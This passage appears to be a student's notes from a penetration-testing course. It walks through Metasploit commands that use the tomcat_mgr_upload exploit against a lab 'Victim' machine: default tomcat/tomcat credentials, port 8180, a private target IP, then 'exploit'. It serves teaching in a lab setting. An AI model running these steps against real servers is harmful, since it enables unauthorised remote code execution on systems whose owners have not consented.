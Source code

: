 	- STEP 12.7 : might be the server issue in Victim's system , so restart the Victim system <br>- in previous output : we're not getting payload error , we're getting Server error - that's why we're starting ✔ <br>> STEP 12.7.1 : login inside the Victim system
	- STEP 12.8 : run `exploit` , output : same as STEP 12.3 <br>- so let's use a another exploit i.e 7th - which is related to tomcat i.e tomcat_mgr_upload
	- STEP 12.9 : run `use 7` & then run `options` , output : so this 7th exploit asking same thing i.e username & password of HTTP <br>> STEP 12.9.1 : run `set HttpUsername tomcat` <br>> STEP 12.9.2 : run `set HttpPassword tomcat` <br>- now we need to add/set RPORT & RHOSTS <br>> STEP 12.9.3 : run `set rport 8180` <br>> STEP 12.9.4 : run `set rhosts 192.168.224.128` <br>- & LHOST & LPORT are already by-default set , output : <br><img src="../notes-pics/03-Module/18_lecture/18_lecture-20-M3.jpg" alt="" width="500"/>
	- STEP 12.10 : run either `run` OR `exploit` , output : both will give same output <br><img src="../notes-pics/03-Module/18_lecture/18_lecture-21-M3.jpg" alt="" width="500"/>
- homework : try to exploit in ur PC , cuz the issue is coming in Victim's system inside Devendra sir PC <br>- & even the error is server error
- let's see a different tool i.e Armitage
